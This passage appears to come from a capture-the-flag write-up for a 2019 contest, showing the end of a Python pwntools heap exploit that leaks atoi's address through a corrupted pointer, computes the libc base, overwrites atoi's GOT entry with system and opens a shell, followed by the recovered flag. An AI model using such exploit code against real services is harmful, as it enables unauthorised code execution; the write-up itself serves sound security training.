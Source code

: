 ```python
    raw_input()

    # 通过调试可以发现info的值必须调整为0x31才能构造出正确的堆结构，这里要通过循环调整info的值
    for i in xrange(0x2d):
        show()

    create()
    erase()
    edit(p64(bss), "1", "1")
    create()
    # raw_input()
    create()
    edit(p64(atoi_got), "1", "1")
    show()
    io.recvuntil("Name : ")
    atoi_addr = u64(io.recvuntil("\n")[:-1].ljust(8, "\x00"))
    libc.address = atoi_addr - libc.symbols['atoi']
    system_addr = libc.symbols['system']
    edit(p64(system_addr), "1", "1")
    io.recvuntil("Your choice : ")
    io.sendline("/bin/sh")
    io.interactive()

    return


if __name__ == '__main__':
    pwn()

```

![1572512268320](images/icbc-2019/1572512268320.png)

flag{26EBB32F46D970E0FEB52CADC8AC0568}

